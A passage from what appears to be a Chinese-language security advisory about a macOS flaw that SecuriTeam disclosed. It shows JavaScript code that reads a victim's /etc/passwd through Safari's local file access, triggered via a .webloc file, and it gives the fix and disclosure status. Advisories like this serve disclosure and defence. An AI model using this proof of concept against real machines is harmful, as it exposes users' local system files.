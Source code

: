 使用如下javascript代码，我们可以在受害者主机上显示“/etc/passwd”文件内容：



```
xhr = new XMLHttpRequest();
xhr.open("GET", "/etc/passwd", true);
xhr.onreadystatechange = function()`{`
 if (xhr.readyState == 4) `{`
  alert(xhr.responseText);
 `}`
`}`;
xhr.send();
```

需要注意的是，只有Safari才能通过ajax成功加载本地资源（Chrome以及Firefox不行）。对我们来说这并不是个问题，因为在这个漏洞利用过程中，只有Safari会打开.webloc文件。



**备注**

在本文成稿时，新版的Mac OS X High Sierra中悄悄修复了这个漏洞，因此Apple的更新日志中没有提到这个bug。

Apple没有为这个漏洞分配CVE编号。



**解决办法**

请更新至Mac OS X High Sierra，或者删除rhtmlPlayer.html以修复这个漏洞。



**漏洞状态**

Securiteam安全披露计划已公布了该漏洞，具体地址为：[http://www.beyondsecurity.com/ssd](http://www.beyondsecurity.com/ssd)  。
